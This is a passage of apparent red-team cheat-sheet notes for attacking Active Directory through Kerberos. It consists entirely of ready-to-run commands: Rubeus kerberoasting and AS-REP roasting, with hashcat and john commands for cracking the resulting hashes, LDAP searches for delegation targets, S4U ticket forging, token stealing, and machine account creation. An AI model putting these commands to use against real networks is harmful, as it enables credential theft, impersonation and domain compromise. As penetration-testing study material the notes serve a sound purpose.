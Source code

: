 `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:[user] /nowrap`

`hashcat -a 0 -m 13100 [hash] [wordlist]`
`john --format=krb5tgs --wordlist=[wordlist] [hash]`
#### AS-REP Roasting
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:[user] /nowrap`

`hashcat -a 0 -m 18200 [hash] [wordlist]`
`john --format=krb5asrep --wordlist=[wordlist] [hash]`
#### Unconstrained Delegation
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname`

User
[[#Kerberos Tickets]] → [[#Pass-the-Ticket]]

Computer
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:1 /nowrap`
[[#Forcing NTLM Authentication]]
[[#S4U2Self]]
#### Constrained Delegation
`execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json`

[[#Kerberos Tickets]]
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:[user (any)] /msdsspn:[spn] /user:[user (principal)] /ticket:[base64 (principal)] /nowrap`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[domain] /username:[impersonate user] /password:FakePass /ticket:[base64 (previous command)]`
`steal_token [pid]`

Alternative Service Name
see [[#Service Tickets]]
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:[user (any)] /msdsspn:[spn] /altservice:[service] /user:[user (principal)] /ticket:[base64 (principal)] /nowrap`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[domain] /username:[impersonate user] /password:FakePass /ticket:[base64 (previous command)]`
`steal_token [pid]`
#### S4U2Self
see [[#Service Tickets]]
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:[user (local admin)] /self /altservice:[service]/[target] /user:[machine]$ /ticket:[base64 (machine tgt)] /nowrap`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:[domain] /username:[user] /password:FakePass /ticket:[base64 (previous command)]`
`steal_token [pid]`
#### Create Computer Object
`powerpick Get-DomainObject -Identity "[domain written as dc=,dc=]" -Properties ms-DS-MachineAccountQuota`
`execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer AwesomeSauce --make`
